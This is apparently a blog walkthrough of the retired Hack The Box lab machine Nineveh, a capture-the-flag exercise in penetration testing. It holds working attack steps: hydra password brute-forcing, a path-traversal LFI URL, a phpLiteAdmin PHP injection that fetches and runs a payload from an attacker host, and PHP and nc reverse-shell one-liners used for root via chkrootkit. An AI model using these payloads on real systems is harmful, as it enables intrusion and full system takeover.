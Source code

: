 ```yaml
---
layout: post
title: "HTB-Nineveh"
categories: HTB-Walkthrough
---
```


![nineveh](/assets/img/nineveh.png)


Nineveh is an interesting box from HTB, and very much an OSCP-like box.

Nmap first...

`nmap -sV -Pn --min-rate 10000 -sC |tee -a nin.txt`

```

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

```


It seems to be good practice to add found domain names to our /etc/hosts file; it can often reveal
pages that, without it, do not appear. So before we start enumerating the two web ports...

`nano /etc/hosts` , type in the ip address...then press tab, and enter the domain name...like this:

```

10.10.10.43	nineveh.htb

```

You can add more domain names if you find them, to the same line; just have a space between them.

First we'll try port 80...

It looks like we'll need to brute-force directories to move forwards...

```

gobuster dir -u http://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh

```

gobuster finds `/department` which is a web login page, and in the source we find two possible usernames: `admin` and `amrois`.

We can use a hydra dictionary attack with these to get valid creds.

make user.txt containing the found names...
trying a few of the usual suspects manually, I work out that the page reveals valid/invalid usernames.
admin is valid
amrois is invalid

so I wont be needing user.txt after all...
I've chosen to use the rockyou.txt password file, 



```

hydra 10.10.10.43 -l admin -P /root/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V


```

I love it when it works...what a tool!

```

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-20 00:22:07

```

After logging in we find that this too is under construction, but there is a link to notes.txt

```

Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois


```

Directory Traversal, and LFI is possible with this page, we can easily read /etc/passwd....

`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd`

So now we just need to find a way to put a file onto the server!


The note hints that we need to find a secret folder? which may relate to a database interface?

Trying /secret fails, but /db comes up trumps with a phpadminlite 1.9 login page.

We just need a password for this, hydra again is the best idea.

We can use 'whatever' as username ...hydra knows this is a dummy id.

```

hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."

```
Yay!!!

```

[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123

```

Should have probably tried some manually first, since that is one everyone tries...no matter!

`searchsploit phpliteadmin 1.9`

```

-------------------------------------------------- ----------------------------------------
 Exploit Title                                    |  Path
                                                  | (/usr/share/exploitdb/)
-------------------------------------------------- ----------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection    | exploits/php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities     | exploits/php/webapps/39714.txt
-------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

Checking out these files we find a method to use.


create boo.php database
create table : newtable  1 field
create field : somefiled  TEXT 
default value: <?php system("wget http://10.10.14.19/evil.txt -O /tmp/evil.php;php /tmp/evil.php"); ?>



make evil.txt file containing....

`<?php $sock=fsockopen("10.10.14.19",6969);exec("/bin/sh -i <&3 >&3 2>&3");?>`


start a webserver and nc listener....
`python3 -m http.server 80`


`nc -nlvp 6969`


execute the lfi with....(it takes quite some experimentation to get this from the initial lfi address..)

initial lfi indicator
`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd`


~~~~~
eventual working exploit lfi...

`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/boo.php`

###################################

<h3>Privesc to root...</h3>

There appears to be report folder in amrois home/folder  ran by root via chkrootkit
 it calls `/tmp/update`


research chrootkit local priv esc.....

all we have to do (because it checks for updates..)
...is exploit the fact it looks in /tmp folder for 'update'


... so we make file `/tmp/update` containing nc reverse shell (old nc)

A favourite trick of writing files on targets,that I've picked up, is using cat. 
It's handy when text editors are unavailable or problematic to use...but I've come to use it frequently; 
initially because I wanted to remember it, but I continue to do so because I think its a neat trick.

```

cat >update<<_EOF
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 1337 >/tmp/f
_EOF

```

`chmod +x update` to make it executable.

Send a copy to /tmp `cp update /tmp/`

...set listener to 1337

######################

```

root@kali:~/HTB/retired/nineveh# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.43] 44776
/bin/sh: 0: can't access tty; job control turned off
whoami
root                                                                                                               
id                                                                                                               
uid=0(root) gid=0(root) groups=0(root)                                                                             
cat /root/root.txt                                                                                               
8axxxxxxxxxxxxxxxxxxxxxxxxxxxx3a                                                                                   
ls /home                                                                                                         
amrois                                                                                                             
cat /home/amrois/user.txt                                                                                        
82xxxxxxxxxxxxxxxxxxxxxxxxxxxxc8      

```
:)





